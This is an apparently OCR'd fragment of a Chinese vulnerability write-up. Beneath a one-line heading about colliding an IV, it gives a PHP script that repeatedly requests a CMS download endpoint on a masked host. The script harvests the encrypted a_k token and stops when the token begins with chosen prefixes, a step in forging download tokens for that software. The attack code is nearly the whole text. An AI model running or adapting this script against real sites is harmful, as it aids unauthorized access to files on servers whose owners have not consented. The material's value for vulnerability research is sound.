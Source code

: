 ![](img/250005167a57bbd634cb46bdda2faf27a5bff254.jpg)

先来写一个小脚本来碰撞 IV

```
<?php

$url = "http://**.**.**.**/index.php?m=content&c=down&a_k=f7c8BFEHCVEIBVYGVQJYB1ADXFNSAAxRAgcHDw5eDlMCR0oJR1oEUB5TW14RFREMHB9cWhRdWQ4CBRxHUEdQC0BPWlpOQQBOARtTGRUJEVVeQ2dDWh0AT1U%2BZ2N%2BDx0cWhEfUFwHHwxXUQNaDAVcBRVTWUEKVwhQWg";

$reg = '#a_k=(.*?)\"#';

$code  = array('7763','2bc5','8706','81b7','30a9','49e7','8731','9c2e','d007');

$i=0;

for(;;){

    $data = doGet($url);

    preg_match_all($reg, $data, $urls);    

    if (in_array(substr($urls[1][0],0,4), $code)){

        die($urls[1][0]);

    }

    $i++;

    echo $i."--".substr($urls[1][0],0,4)."\n";

}

function doGet($url,$cookie=''){

    $ch = curl_init(); 

    curl_setopt($ch, CURLOPT_URL, $url);

    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);

    $response = curl_exec($ch);

    curl_close($ch);

    return $response;

}

?> 
```
